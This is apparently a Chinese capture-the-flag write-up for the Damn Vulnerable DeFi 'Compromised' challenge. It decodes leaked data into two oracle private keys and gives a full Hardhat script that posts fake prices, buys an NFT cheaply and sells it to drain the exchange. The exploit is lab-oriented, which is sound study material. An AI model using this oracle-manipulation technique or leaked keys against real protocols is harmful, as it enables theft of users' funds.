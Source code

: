 解析为ASCII，为`MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5`，很明显这个是`base64`加密后的结果，解密为`0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9`。

同样，我们还可以获得`0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48`。

我们使用如下代码进行验证：

```javascript
const priKey1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
const priKey2 = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";
const oracle1 = new ethers.Wallet(priKey1);
const oracle2 = new ethers.Wallet(priKey2);
console.log(oracle1.address);
console.log(oracle2.address);
```

输出结果如下：

```
0xe92401A4d3af5E446d93D11EEc806b1462b39D15
0x81A5D6E50C214044bE44cA0CB057fe119097850c
```

而这个正好就是喂价机的地址。接下来就是通过操纵预言机进行获利了。由合约`Exchange.sol`可知，`buyOne`和`SellOne`都依赖于`getMedianPrice`，即通过中位数定价。

```javascript
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const priKey1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
        const priKey2 = "0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48";
        const oracle1 = new ethers.Wallet(priKey1,ethers.provider);
        const oracle2 = new ethers.Wallet(priKey2,ethers.provider);
        console.log(oracle1.address);
        console.log(oracle2.address);
        
        const tx1 = {
            to: oracle1.address,
            value: ethers.utils.parseEther('0.02'),
            gasLimit: 21000,
            gasPrice: ethers.utils.parseUnits('10', 'gwei'),
          };
        const tx2 = {
            to: oracle2.address,
            value: ethers.utils.parseEther('0.02'),
            gasLimit: 21000,
            gasPrice: ethers.utils.parseUnits('10', 'gwei'),
          };         
        await player.sendTransaction(tx1);
        await player.sendTransaction(tx2);

        await oracle.connect(oracle1).postPrice('DVNFT',ethers.utils.parseEther('0.0001'));
        await oracle.connect(oracle2).postPrice('DVNFT',ethers.utils.parseEther('0.0001'));
        const id = await exchange.connect(player).callStatic.buyOne({value:ethers.utils.parseEther('0.0001')});
        await exchange.connect(player).buyOne({value:ethers.utils.parseEther('0.0001')});
        

        const price = await ethers.provider.getBalance(exchange.address);
        await oracle.connect(oracle1).postPrice('DVNFT',price);
        await oracle.connect(oracle2).postPrice('DVNFT',price);
        await nftToken.connect(player).approve(exchange.address,id);
        await exchange.connect(player).sellOne(id);

        await oracle.connect(oracle1).postPrice('DVNFT',INITIAL_NFT_PRICE);
        await oracle.connect(oracle2).postPrice('DVNFT',INITIAL_NFT_PRICE);

    });
```